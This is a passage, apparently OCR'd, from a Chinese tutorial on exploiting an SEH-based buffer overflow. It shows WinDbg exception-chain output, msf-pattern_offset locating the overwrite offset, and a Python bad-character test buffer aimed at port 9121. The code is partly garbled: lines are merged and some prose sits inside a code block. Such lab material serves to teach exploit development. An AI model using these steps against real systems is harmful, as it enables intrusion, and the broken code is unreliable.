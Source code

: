 ```text
可以用命令!exchain命令查看当前EH指针的内容（指向处理当前异常的代码地址的指针)

0:009> !exchain
0155fe1c: libpal!md5_starts+149fb (005fdf5b) 0155ff54: 33654132  
Invalid exception stack at 65413165
```

1.2 定位指针
```text
kali@kali:~$ msf-pattern_offset -l 1000 -q 33654131

EH以链表的形式存储在栈中，每一条SEH记录大小为8字节，包含2个元素：

- 指向下一条记录地址的指针（4字节）
- 指向处理当前异常的代码地址的指针（4字节）
```

1.3 发现坏字符（bad characters）

```python
try:  
server = sys.argv[1] port = 9121  
size = 1000
badchars = {
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d"
  b"\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a"
  b"\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27"
  b"\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34"
  b"\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
  b"\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e"
  b"\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b"
  b"\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
  b"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75"
  b"\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
  b"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
  b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c"
  b"\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9"
  b"\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6"
  b"\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
  b"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd"
  b"\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea"
  b"\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
  b"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
}

inputBuffer = b"\x41" * 128  
inputBuffer+= b"\x42\x42\x42\x42"  
inputBuffer+= badchars  
inputBuffer+= b"\x43" * (size - len(inputBuffer))
```
正如预期的那样，我们获得了对指令指针的控制权。 我们现在可以转储传递给 _except_handler 函数的第二个参数 (EstablisherFrame) 指向的字节 (db)。 我们可以从 ESP 偏移 0x08 处的堆栈中获取此参数：

